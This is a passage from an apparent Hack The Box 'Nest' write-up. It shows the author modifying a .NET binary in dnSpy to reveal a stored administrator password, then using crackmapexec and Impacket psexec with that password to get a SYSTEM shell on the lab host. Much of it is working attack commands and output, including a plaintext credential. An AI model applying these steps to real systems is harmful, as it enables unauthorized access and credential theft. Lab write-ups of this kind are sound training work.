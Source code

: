 ```console
						Console.WriteLine(Conversions.ToString(list.Count) + " user accounts found. Importing to database...");
```

I used the tool dnSpy to load the binary and was able to edit the code. Looking into the code there are a few things that are required the HqkDbImport.exe, ldap.conf file that feeds the username and password to the software, and editing the code. 

``console
Console.WriteLine("The Password is: ");
Console.WriteLine(ldap.Password);
```

This was to ensure that I was using the right version of the code so it will say the Password is and not lday query. Then executing the code in CMD got me.

```console
C:\Users\jayso\Desktop\CTF\HTB\NEST>HqkLdap.exe ldap.conf
Performing LDAP query...
Unexpected error: The specified domain does not exist or cannot be contacted.

C:\Users\jayso\Desktop\CTF\HTB\NEST>HqkLdap.exe ldap.conf
The Password is:
XtH4nkS4Pl4y1nGX
Unexpected error: The specified domain does not exist or cannot be contacted.
```
Now let run crackmapexec

### Crackmapexec

```console
noob2uub@kali:~/ctf/htb/nest$ crackmapexec smb 10.10.10.178 -u administrator -p XtH4nkS4Pl4y1nGX
/usr/lib/python3/dist-packages/pywerview/requester.py:144: SyntaxWarning: "is not" with a literal. Did you mean "!="?
  if result['type'] is not 'searchResEntry':
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\administrator:XtH4nkS4Pl4y1nGX (Pwn3d!)
```
We have a pwned now lets run psexec for the shell

### PSEXEC

```console
noob2uub@kali:~/ctf/htb/nest$ psexec.py administrator@10.10.10.178
Impacket v0.9.25.dev1+20220501.210324.0e40593a - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file aVqWuYEi.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service QMWP on 10.10.10.178.....
[*] Starting service QMWP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

